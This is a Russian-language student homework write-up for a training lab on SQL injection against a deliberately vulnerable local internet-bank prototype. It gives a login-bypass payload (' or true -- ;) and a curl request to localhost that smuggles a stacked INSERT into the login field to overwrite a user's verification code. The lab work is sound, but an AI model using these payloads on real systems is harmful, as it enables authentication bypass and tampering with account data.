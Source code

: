 # Домашнее задание к занятию «1.3. SQL и транзакции»

## Описание

Разработчики подготовили прототип будущей системы интернет-банка.

Для запуска нужно скачать файлы из каталога `assets`:
* [`docker-compose.yml`](./assets/docker-compose.yml);
* [`docker-entrypoint-initdb.d/init.sql`](./assets/docker-entrypoint-initdb.d/init.sql).

После скачивания структура на вашем диске должна иметь вид:
* файл `docker-compose.yml`;
* каталог `docker-entrypoint-initdb.d`;
    * файл `init.sql`.
    
Для запуска используйте команду `docker-compose up`.

Для остановки и удаления контейнеров используйте `docker-compose down`.

## Задание «Логин и пароль»

### Этапы выполнения

Фронтенд сервиса работает на порту 8888:

Используя ваши знания об SQL Injection, подберите входные данные так, чтобы попасть на следующий экран с подтверждением кода без знания пароля, при этом вы при помощи методов социальной инженерии узнали, что в системе существует пользователь с логином `sasha`.

Примечание*. Конечно, вы можете подсмотреть хеш пароля в БД, но пароль ещё придётся подобрать.

### Результаты выполнения задания

В качестве результата пришлите входные данные, которые позволяют пройти на следующий экран без знания пароля пользователя.

## Ответ
\
В поле "Логин" вводим: `' or true -- ;` \
В поле "Пароль" вводим любой набор символов, например `1`
![](./pic/screenshot1.JPG)
## Код подтверждения*

**Важно**. Это необязательное задание. Его выполнение не влияет на получение зачёта по домашней работе.

### Описание

### `UNION`

В SQL есть специальная конструкция `UNION`, которая позволяет объединить данные нескольких запросов.

Пример:
```sql
SELECT login, password FROM users
UNION
SELECT number, status FROM cards
```

Сложит в результаты запроса данные из двух таблиц:
| login | password |
| --- | ----------- |
| sasha | ... |
| masha | ... |
| 5559 0000 0000 0001 | ... |
| 5559 0000 0000 0002 | ... |

Этот пример позволяет добавить к данным, легитимно выбираемым приложением, произвольные по нашему усмотрению, если мы можем дописать часть с `UNION`.

Ключевые моменты:
1. Количество полей и их типы должны совпадать в обоих `SELECT`. Для преобразования типов существуют специальные выражения или функции, например для [PostgreSQL](https://postgrespro.ru/docs/postgresql/13/typeconv).
2. Если первый `SELECT` ничего не вернёт, например, потому что в нём будет условие `WHERE`, которому не соответствует ни одна строка, то останутся только строки, полученные из второго `SELECT`.

Также нужно указать и на то, что `SELECT` не обязательно должен выбирать данные из таблицы. Например, запрос вида `SELECT 'vasya', 'active'` вполне легитимный. Он возвращает строку, в которой всего два столбца со значениями `vasya` и `active` соответственно.

### Результаты выполнения задания

В качестве результата пришлите сURL-запрос, который позволяет получить токен доступа без знания кода верификации.

## Ответ
\
Не вполне уверен, что выполнил задание верно, но мне удалось попасть внутрь приложения, не зная изначально код. Хотел бы узнать, какую конструкцию с `UNION` можно использовать, чтобы получить результат.

Во-первых, получить доступ внутрь приложения можно просто изучив логи контейнера при входе. `assets-db-1        | 2023-06-11 13:28:00.945 UTC [329] LOG:  statement: INSERT INTO codes (login, code) VALUES ('sasha', '39bf') ON CONFLICT (login) DO UPDATE SET code = '39bf', tries = 0`. Тут мы видим, что полю код присваивается значение `39bf`, причем при каждой попытке логина, код перезаписывается.

Во-вторых, рассмотрим ситуацию, когда мы не видим логи и не знаем код. \
Скопировав cURL из браузера, при неверной аутентификации, мы можем изменить cURL запрос к приложению, экранировав поле с запросом `WHERE` кавычкой и поставив `;`, а после добавляем запрос, который перезапишет значение `code`, которое соответствует известному нам по условию пользователю `sasha` на тот, который нужен нам. В примере это код `8888`, но по факту можно выставить любой. \
![](./pic/screenshot2.JPG)
```text
curl 'http://localhost:8888/api/auth/verification' \
  -H 'Content-Type: application/json' \
  --data-raw $'{"login":"sasha\'; INSERT INTO codes (login, code) VALUES (\'sasha\', \'8888\') ON CONFLICT (login) DO UPDATE SET code = \'8888","code":"8888"}' \
  ```
![](./pic/screenshot3.JPG)
Сервер возвращает нам ошибку, но данные в бд уже перезаписаны, и введя в браузере код `8888` попадаем внутрь приложения и видим карты и балансы.
![](./pic/screenshot4.JPG)
